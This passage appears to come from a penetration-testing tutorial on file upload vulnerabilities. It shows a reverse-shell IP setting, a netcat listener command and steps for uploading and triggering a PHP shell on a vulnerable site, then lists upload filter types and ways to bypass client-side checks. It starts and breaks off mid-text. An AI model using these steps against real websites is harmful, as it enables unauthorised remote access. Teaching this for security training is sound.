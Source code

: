 ```
$ip = '127.0.0.1';  // CHANGE THIS
```

Setup the listener with NetCat

```bash
nc -lvnp 1234
```

1. Upload the Reverse Shell payload file into vulnerable website.
2. View the file in the `uploads` directory to activate the connection

```
https://vuln.site.com/uploads/shell.php
```

3. Obtain the connection in NetCat listener.

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Enumeration possible filters

There could be some filter when we upload a document in a website. To bypass this we have to recognize them before.

These are the possible type of filter:

<details><summary><em><strong>Extension Validation</strong></em></summary></details>

<details><summary><em><strong>File Type Filtering</strong></em></summary></details>

<details><summary><em>File Length Filtering</em></summary></details>

<details><summary><em>File Name Filtering</em></summary></details>

<details><summary><em>File Content Filtering</em></summary></details>

## Bypassing Client-Side Filtering

There are four easy ways to bypass your average client-side file upload filter:

1. _**Turn off Javascript in your browser:**_ this will work provided the site doesn't require Javascript in order to provide basic functionality. If turning off Javascript completely will prevent the site from working at all then one of the other methods would be more desirable; otherwise, this can be an effective way of completely bypassing the client-side filter.
2. _**Intercept and modify the incoming page:**_ Using Burpsuite, we can intercept the incoming web page and strip out the Javascript filter before it has a chance to run.&#x20;
3.  _**Intercept and modify the file upload:**_ Where the previous method works _before_ the webpage is loaded, this method allows the web page to load as normal, but intercepts the file upload after it's already passed (and been accepted by the filter). Again, we will cover the process for using this method in the course of the task.\
